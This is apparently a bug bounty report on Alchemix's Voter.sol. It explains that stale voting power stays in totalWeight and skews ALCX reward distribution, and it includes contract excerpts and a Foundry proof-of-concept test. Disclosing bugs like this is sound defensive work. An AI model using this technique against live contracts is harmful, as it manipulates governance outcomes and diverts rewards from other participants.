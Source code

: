 
# Wrong totalWeight in Voter.sol

Submitted on May 7th 2024 at 18:39:32 UTC by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30886

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
If the user proceeds with the vote only once and does nothing afterwards, the voting power of the user does not decrease and this affects the overall voting result.

## Vulnerability Details
```
/// @inheritdoc IVoter
    function notifyRewardAmount(uint256 amount) external {
        require(msg.sender == minter, "only minter can send rewards");
        require(totalWeight > 0, "no votes");

        _safeTransferFrom(base, msg.sender, address(this), amount); // transfer rewards in

        uint256 _ratio = (amount * 1e18) / totalWeight; // 1e18 adjustment is removed during claim

        if (_ratio > 0) {
            index += _ratio;
        }

        emit NotifyReward(msg.sender, base, amount);
    }
```
```
function _updateFor(address _gauge) internal {
        require(isGauge[_gauge], "invalid gauge");

        address _pool = poolForGauge[_gauge];
        uint256 _supplied = weights[_pool];
        if (_supplied > 0) {
            uint256 _supplyIndex = supplyIndex[_gauge];
            uint256 _index = index; // get global index0 for accumulated distro
            supplyIndex[_gauge] = _index; // update _gauge current position to global position
            uint256 _delta = _index - _supplyIndex; // see if there is any difference that need to be accrued
            if (_delta > 0) {
                uint256 _share = (uint256(_supplied) * _delta) / 1e18; // add accrued difference for each supplied token
                claimable[_gauge] += _share;
            }
        } else {
            supplyIndex[_gauge] = index;
        }
    }
```
In this protocol, votingPower linearly decreases over time. However, if no action for the tokenId is taken after the first vote, the votingPower of that token remains within totalWeight and weights. This directly affects _ratio within the Voter.notifyRewardAmount function. It also impacts claimable in the Voter._updateFor function.

When the Voter.distribute function is called, newly minted ALCX tokens are distributed to each gauge according to the voting results. 

Ultimately, the voting results differ from what was intended, which affects the distribution of ALCX tokens. 

Even if a token expires, this phenomenon continues. 

## Impact Details
The governance voting results are manipulated, leading to a direct deviation from the intended impact of the original results.


## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VoterPoC is BaseTest {
    uint256 constant DURATION = 2 weeks;
    uint256 constant SECONDS_PER_BLOCK = 12;
    uint256 public epochTime;
    uint256 public epochBlock;

    address public sushiBribeAddress;
    address public balancerBribeAddress;

    function setUp() public {
        setupContracts(block.timestamp);
        epochTime = minter.activePeriod();
        epochBlock = block.number;
    }

    function goNextEpoch() private {
        epochTime = epochTime + DURATION;
        epochBlock = epochBlock + DURATION / 12;
        hevm.warp(epochTime);
        hevm.roll(epochBlock);

        sushiBribeAddress = voter.bribes(address(sushiGauge));
        balancerBribeAddress = voter.bribes(address(balancerGauge));

    }

    function testBugTotalWeight() public {
        address[] memory poolsOfAdmin = new address[](1);
        poolsOfAdmin[0] = sushiPoolAddress;
        address[] memory poolsOfBeef = new address[](1);
        poolsOfBeef[0] = balancerPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10_000;


        uint256 nonActiveTokenId = createVeAlcx(admin, TOKEN_1 * 1000, MAXTIME, false);

        // go epoch 1
        goNextEpoch();

        // To call Minter.updatePeriod(). but not send reward token to Voter
        voter.distribute();


        hevm.prank(admin);
        voter.vote(nonActiveTokenId, poolsOfAdmin, weights, 0);

        uint256 totalWeight0 = voter.totalWeight();

        hevm.warp(block.timestamp + MAXTIME / 2);
        voter.distribute();


        uint256 totalWeight1 = voter.totalWeight();

        // ==================== General voting =======================
        // if user does nothing, Voter.totalWeight is not changed.
        assertEq(totalWeight0, totalWeight1, "The code is correct");

        uint256 outPutTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

        hevm.prank(admin);
        voter.vote(outPutTokenId, poolsOfAdmin, weights, 0);

        hevm.prank(beef);
        voter.vote(userTokenId, poolsOfBeef, weights, 0);

        uint256 period = minter.activePeriod();
        hevm.warp(period + nextEpoch);
        voter.distribute();

        address[] memory gauges = new address[](2);
        gauges[0] = address(sushiGauge);
        gauges[1] = address(balancerGauge);

        voter.updateFor(gauges);

        // be expected claimable amount for sushiGauge = claimable amount for balancerGauge
        uint256 claimableForSushi = voter.claimable(address(sushiGauge));
        uint256 claimableForBalancer = voter.claimable(address(balancerGauge));
        console.log(claimableForSushi);
        console.log(claimableForBalancer);

        // claimableForSushi > claimableForBalancer
        assertGt(claimableForSushi, claimableForBalancer, "claimable amount is equal");
        console.log("compare claimable: ", claimableForSushi / claimableForBalancer);
        // that shows 944
        // ================================================================

        period = minter.activePeriod();
        hevm.warp(period + nextEpoch);

        hevm.prank(admin);
        voter.reset(outPutTokenId);

        hevm.prank(beef);
        voter.reset(userTokenId);

        totalWeight1 = voter.totalWeight();
        assertEq(totalWeight0, totalWeight1, "totalWeight0 != totalWeight2");

        epochTime = epochTime + MAXTIME + DURATION;
        hevm.warp(epochTime);
        // at this time, the nonActiveTokenId is expired
        // but the totalWeight is kept the votingPower of the token when the token is created
        // the general vote will be continue ... and the expired votingPower affects the token distribution for gauges.
        // this TOKEN will have to be locked during MAXTIME at this point in order to get such a voting powers,
        // but the user can always withdraw at any time.
        totalWeight1 = voter.totalWeight();
        assertEq(totalWeight0, totalWeight1, "totalWeight0 != totalWeightAtExpiredTime");
    }
}
```